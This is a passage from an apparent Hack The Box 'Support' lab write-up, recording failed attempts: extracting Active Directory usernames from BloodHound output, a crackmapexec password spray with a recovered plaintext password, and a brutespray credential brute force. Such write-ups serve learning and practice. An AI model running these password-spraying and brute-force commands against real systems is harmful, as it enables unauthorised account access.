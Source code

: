 
## Failed Attamps


### Password spray

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ mkdir bloodhound-result

┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ cd bloodhound-result

┌──(bravosec㉿fsociety)-[~/htb/Support/bloodhound-result]
└─$ unzip -l ../DC_10.129.227.255_2023-09-27_123856bloodhound.zip
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support/bloodhound-result]
└─$ cat 2023-09-27_123858_users.json | jq .data[].Properties.samaccountname -r
null
ford.victoria
stoll.rachelle
langley.lucy
daughtler.mabel
west.laura
cromwell.gerard
monroe.david
raven.clifton
bardot.mary
levine.leopoldo
thomas.raphael
anderson.damian
wilson.shelby
smith.rosario
hernandez.stanley
krbtgt
ldap
support
Guest
Administrator

┌──(bravosec㉿fsociety)-[~/htb/Support/bloodhound-result]
└─$ vi ad_users.txt
```

Nothing found

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support/bloodhound-result]]
└─$ cme smb support.htb -u ad_users.txt -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```


### Brute Force common credentials

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ mkdir -p brutespray-output; inotifywait --monitor -e create,modify brutespray-output
Setting up watches.
Watches established.
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support]
└─$ brutespray -f nmap/all_tcp_ports.gnmap -t 50 -T 5
```